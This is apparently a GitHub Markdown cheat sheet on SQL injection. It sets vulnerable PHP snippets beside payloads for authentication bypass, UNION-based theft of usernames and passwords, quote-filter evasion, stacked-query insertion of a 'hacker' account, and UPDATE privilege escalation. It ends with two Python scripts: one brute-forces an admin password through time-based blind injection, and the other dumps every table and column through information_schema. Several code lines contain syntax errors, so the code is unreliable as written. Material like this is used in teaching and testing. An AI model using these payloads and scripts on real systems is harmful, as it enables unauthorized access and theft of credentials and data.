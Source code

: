 # SQL injection

## Basic sql injection
```php
$query = "SELECT * FROM t WHERE name ="' . $name . "'";
name = ' OR 1=1 --
```


## Retrieving all info
Suppose following code
```php
$query = "SELECT * FROM t Where name = '" . $name . "'";
while ($row = mysql_fetch_assoc($result)) {
    echo $row['name'];
    echo $row['renter'];
    echo $row['book_location'];
}
```
if name is `' OR 1=1 – '`, result will contain all entries.
## Retrieving only one entry
Suppse following code
```php
$query = "SELECT name, memo FROM t Where id = '{$name}' " ;
$result = $conn->query($query);
$row = $result->fetch_assoc();
echo $row['name'];
echo $row['memo'];
}
```
We can see here that we can only take one entry from this code. We can get entries by using offset. If we write  `id = ' OR 1=1 LIMIT x, 1 – '` we get xth row from database.
## UNION Attack
Suppose following code
```php
$query = "SELECT item, description FROM t Where name = '{$name}' ";
$result = $conn->query($query); 
while ($row = $result->fetch_assoc($result)) {
    echo $row[0];
    echo $row[1];
}
```
From this code we konw that t database has item and description columns. And we know that there is a database named USERS which has username, password fields. So, we can make union attacks by applying this query `$name = random_string' UNION SELECT
username, password FROM USERS --'`. After applying this query it the first part SELECT may return nothing, but second part will return interesting entries for us. (Note: The number of columns should be same.)
## UNION Attack with modification of entry
Suppose code below
```php
$query = " SELECT username, passwd, sensitive_info FROM t WHERE userid = '{$id}' ";

$user = $result->fetch_assoc();

if ($passwd !== $user["passwd"]) {
    echo fail("Wrong password");
    $conn->close(); 
    exit;
}

echo success(array(
    "name" => $user["username"],
    "memo" => $user["memo"]
));
```
Suppose we want to find sensitive information of the user. But there is password checker which complicate the situation, as we need to know the password. We can here apply UNION query which will change some entries of the output. If id is equal to `%' UNION SELECT 'kek', 'kek', memo FROM t -- -'`, this will add new entries to the select whose username and passwd fields are kek. Then we can just run this query and payload password with kek. 

## Administration login
Suppose following code
```php
SELECT * WHERE user='{$name}' AND pwd='{$passwd}'
```
What if we set user and passwd to `' OR pwd LIKE '%`? It will log in with the credentials of the first person in the database (typically, administrator!).

## Multiple SQL Injection Attack (obsolete)
This was possible before php mysql functions get fixed. In previous versions of mysql functions it was possible to make multiple sql injection attack. You can just send `'; INSERT INTO USERS ('uname','passwd','salt') VALUES ('hacker','38a74f', 3234);` as input. In newer versions of php, if `multi_query` is used, we can perform this kind of attack. 

## Quote Bypass
Suppose this code, which returns error if input contains whitespaces or quotes
```php
if (preg_match("/( |\t|\r|\n|\s)/", $name)) // Check whitespaces
    die(fail("No whitespaces are allowed"));
if (preg_match("/(\'|\")/", $name)) // Check quotes
    die(fail("No quotes are allowed"));
$query = "SELECT username, memo FROM t Where id = '{$name}' and passwd = '{$passwd}' " ;
$result = $conn->query($query);
```
Here we can see that we can not simply write sql injection attack as before. But what if we inject `$name = '\'` and `$passwd = or/**/id=0x61646d696e#`. The query will look like this 
```php 
SELECT name, memo FROM t WHERE id = '\' and passwd = 'or/**/id=0x61646d696e#'
```
`\'` is same character form of `'`. So quote of `id = '` will finish at `passwd = '` which is followed with or statment. In order to make space between `or id=0x61646d696e` we can use `/**/` as space which is openning and closing comment. As we can't use quotes we can encode id as bytes. We can see that `0x61646d696e` corresponds to admin in ascii. 
## Blind SQL injection
Suppose this code
```php
$query = " SELECT username, passwd, memo FROM t WHERE userid = '{$id}' ";
$result = $conn->query($query);
if (!$result) {
    echo error("SQL query error: {$conn->error}");
    $conn->close();
    exit;
}
```
What if we know that there is user with admin rights. We can bruteforce his password using blind sql injection. We can inject id as `admin' and if(substr(passwd,1,1)='a', sleep(3),0) # `. If first character of admin's password is **a** we will get answer with 3 seconds delay. We can write script that will bruteforce the password. 
```python
import requests
import time
print("Starting the bruteforce")
address = "http://example.com/endpoint.php"
for i in range(1, 10):
    for j in range(47, 123):
        URL=address+"?id=admin%27 and if(substr(passwd,"+str(i)+",1)='" chr(j) +"', sleep(3),0) # "
        start = time.time()
        res = requests.get(URL)
        end = time.time()
        if (end-start > 1):
            print("Found character: ", chr(j))

```

## Exploiting UPDATE statement
Suppose following code
```php
UPDATE users SET user_password=md5('{$passwd}')
WHERE user_id='userid'
```
If we set $passwd to `badPwd'), user_level='103', user_aim=('????????` it will update user's roles to administrator. 

## Second order SQL injection attack
[YT video](https://youtu.be/FNTwAV4xH3o)

## Getting all fields from database
Suppose you don't know the database structure. And you want to dump all the entries from database. You can do it so if you find malicious select. Just this code that will firstly find all tables in database and secondly will find all possible columns. After that it will perform simple bruteforce, checking all possible tables with all possible columns.

```python
url = ""
resp = requests.post(url,
                    data = {
                        "q": "' UNION select group_concat(table_name) from information_schema.tables where table_schema=database() #"
                    })
databases = json.loads(resp.text)["data"]["users"][0].split(',')
resp = requests.post(url,
                data = {
                    "q": "' UNION select group_concat(column_name) from information_schema.columns where table_schema=database() #"
                })
column_names = json.loads(resp.text)["data"]["users"][0].split(',')
dump = []
for database in databases:
    for column in column_names:
        resp = url,
        data = {
            "q": "' UNION select group_concat(" + column + ") from " + database + " #"
        })
        resp = json.loads(resp.text)
        if (resp["status"] == "success"):
            dump.extend(resp["data"]["users"][0].split(','))
```